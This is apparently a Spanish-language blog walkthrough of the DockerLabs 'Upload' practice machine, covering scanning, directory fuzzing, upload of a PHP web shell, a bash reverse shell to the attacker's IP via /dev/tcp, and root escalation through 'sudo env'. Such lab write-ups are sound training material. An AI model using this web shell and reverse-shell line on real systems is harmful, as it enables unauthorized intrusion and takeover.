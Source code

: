```yaml
---
layout: post
title: "Upload"
date: 2024-06-29 12:20:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Upload </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/upload/host.png){:.margin}

**1\.** Descubrimos puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/nmap.png){:.margin}

**2\.** En la web tenemos una subida de archivos.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/80.png){:.margin}

**3\.** Hago fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directoy-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/upload/gobuster.png){:.margin}

**4\.** En el php tenemos la misma subida de archivos, y en uploads supongo que se almacena todo lo subido.

`http://172.17.0.2/upload.php`

`http://172.17.0.2/uploads/`

![img](/notas/public/img/dockerlabs/upload/uploadphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/upload.png){:.margin}

**5\.** Creo un php para subirlo y obtener una webshell, nuestro php lo encontramos en uploads.

`echo '<?php system($_GET["cmd"]);?>' > shell.php`

![img](/notas/public/img/dockerlabs/upload/shellphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/shellupload.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/uploads.png){:.margin}

**6\.** Me pongo en escucha con nc para recibir la reverse shell.

`nc -nlvp 4000`

`http://172.17.0.2/uploads/shell.php?cmd= bash -c "bash -i >%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/upload/80reverse.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/ncok.png){:.margin}

**7\.** Revisando los permisos sudo, tengo este binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/upload/sudol.png){:.margin}

**8\.** Escalando privilegios a root, busco en [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo) sobre el binario.

`sudo env /bin/sh`

![img](/notas/public/img/dockerlabs/upload/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>